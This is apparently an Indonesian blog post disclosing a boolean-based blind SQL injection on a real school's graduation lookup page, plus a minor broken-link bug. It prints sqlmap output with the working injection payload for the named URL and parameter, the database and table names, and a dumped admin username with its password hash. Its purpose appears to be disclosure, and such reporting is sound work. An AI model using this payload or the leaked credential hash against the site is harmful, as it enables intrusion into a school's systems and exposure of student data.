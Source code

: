 +++
title = "BUG PADA WEBSITE [ CRITICAL ] / BERBAHAYA"
penulis = "Admin"
+++
Kepada YTH. BPK/IBU Guru SMP1KRAGAN

saya menemukan celah  SQLI BOOLEAN BASED di halaman lulus.smp1kragan.sch.id/index.php?page=carinisn  

setelah saya test alhasil muncul INFORMASI database , segera di fix untuk mencegah webste Ter Hack. Berikut informasi yang saya dapatkan : 

![](https://jongnesia.com/tutorial/sqli.png)

```mysql
Database: u873893874_dblulus
[3 tables]
+------------+

| tb_student |

| tbl_profil |

| tbl_user   |
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                
+------------+
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: nisn (POST)

    Type: boolean-based blind

    Title: AND boolean-based blind - WHERE or HAVING clause

    Payload: nisn=' OR '1' AND 9477=9477-- JuzH&SUBMIT=PERIKSA DATA
---

web application technology: PHP 7.4.33, LiteSpeed

back-end DBMS: active fingerprint: MySQL >= 5.7

               comment injection fingerprint: MySQL 5.6.52

               fork fingerprint: MariaDB

available databases [2]:
[*] information_schema
[*] u873893874_dblulus
Database: u873893874_dblulus
Table: tbl_user
[1 entry]
+---------+--------+----------------------------------+----------+
| id_user | nama   | pass                             | username 
+---------+--------+----------------------------------+----------+
| 0       | Taufiq | 918b5ec119b2e29bd5b2c7c09f39d2ae | admin    |
+---------+--------+----------------------------------+----------+ 
```





Cara Mengatasi Bug :

1. Di filter code bagian untuk cek nya , bisa tanya CHATGPT

2. atau di non aktifkan dulu aja subdomainya



BUG KE 2

![](https://jongnesia.com/tutorial/web.png)

pada tampilan utama website  smpn1kragan.sch.id , coba pencet salah satu postingan. maka akan error https://smp1kragan.sch.id/'.$base_url.'blog/'.$row_new_blog['post_id'].'-'.$row_new_blog['seotitle'].'.html . ini mungkin kesalahan codingan nya. 












